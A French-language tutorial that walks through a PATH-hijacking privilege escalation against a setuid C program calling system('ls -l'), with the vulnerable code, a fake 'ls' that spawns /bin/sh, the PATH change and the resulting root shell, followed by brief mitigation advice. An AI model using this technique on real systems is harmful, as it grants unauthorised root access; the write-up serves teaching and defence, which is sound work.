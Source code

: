 ## I. Introduction
La fonction `system()` de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer, `system()` utilise la variable d'environnement `$PATH`. Il suffit donc d'agir sur cette variable pour faire executer à `system` le mauvais programme.

## II. Pré-requis
* Un programme suid
* L'argument de `system()` n'est pas un chemin absolu.


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation de la faille
### Création d'un faux programme 'ls' ouvrant un shell.
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o ls
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```
On ajoute le repertoire contenant notre faux programme `ls` en première position de la variable `$PATH`

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
$
```
Pour executer `ls`, `system()` cherche en premier dans notre repertoire courant au lieu de `/bin/`, lance notre faux `ls`, qui lance un shell root puisque notre programme `vuln` est suid.
    
## IV. Protection
Mettre le chemin absolue avec `system()` est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.  
Il faut donc utiliser les fonctions type `execve()` et bannir `System()`.


